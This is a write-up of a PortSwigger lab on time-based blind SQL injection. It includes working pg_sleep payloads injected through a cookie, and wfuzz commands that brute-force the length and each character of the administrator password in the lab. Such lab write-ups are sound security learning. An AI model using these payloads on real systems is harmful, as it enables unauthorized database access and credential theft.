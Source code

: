 # Blind SQL injection with time delays and information retrieval
[Click here to see the description of the lab.](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
## Description:
This challenge is about Blind SQL injection based on Time delay. Blind SQL injection doesn't return a response containing the results of the query or any database errors, but it can change some content on the web page, or send an error status code as an HTTP response, in this case neither case is met. To solve this challenge, we rely on the time the query took to be executed, normal time means a condition is not met, more time means a condition is met.
## Writeup:
The challenge's description reveals that the **session cookie** is vulnerable, and we can use it to retrieve the `password` of the `administrator` from the `users` table.
We can use BurpSuite to intercept the request and take a look at the cookie:
![Screenshot from 2024-12-17 16-48-08](https://github.com/user-attachments/assets/24afbb04-d5b1-4d12-a52b-5142cd8b8d02)
We can verify that it is a time based sql injection by sending this payload (we suppose that is it a PostgresSQL database) at the end of the TrackiId cookie:
```sql
'|| pg_sleep(5)--
```
The response was delayed, so the query works.
Since we can't see the result of  the query injected, and we want to extract the password of the administrator, we can make a delay if the first character of the password equals 'a', the payload should look similar to this:
```sql
'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND substr(password, 1, 1)='a'--
```
If the condition was correct, the query will be delayed by 5 seconds, and we now know the first character of the password. Following this method manually is impossible since the password can be any length and contain any character, Wfuzz tool can help us.
You can inject a range of numbers, list of words or characters in your payload by writing FUZZ in the chosen injection point, and with the following command we can know the length of the password:
```sh
wfuzz -c -z range,0-30 -H "Cookie: TrackingId=zJ1zKcy39v1HQPaY'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND LENGTH(password)=FUZZ)--; session=zgorPVqzeSjnbS5aGVnU7BaAjYjT022D" -u "https://0a4200b7042a32e28467c84d00a100aa.web-security-academy.net/" --filter "r.reqtime>=4"
```
The option `--filter r.reqtime>=4` helps us filter the response that took more than 5 seconds, which means the condition is true.
And the result was:
![Screenshot from 2024-12-17 17-00-12](https://github.com/user-attachments/assets/3cb0ab9b-2a61-4a0c-b3a8-3ce5839b7342)
The password's length is 20, now we can test each index with a set of characters and numbers stored in `ascii.txt` file. The Command would be:
```sh
wfuzz -c -z range,1-20 -z file,/home/kali/Desktop/ascii.txt -H "Cookie: TrackingId=zJ1zKcy39v1HQPaY'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND substr(password, FUZZ, 1)='FUZ2Z')--; session=zgorPVqzeSjnbS5aGVnU7BaAjYjT022D" -u "https://0a4200b7042a32e28467c84d00a100aa.web-security-academy.net/" --filter "r.reqtime>=4"
```
And now we got the admin's password from the database.
![Screenshot from 2024-12-17 17-01-04](https://github.com/user-attachments/assets/297743e3-e402-4c7b-9660-64f26e8e5d76)
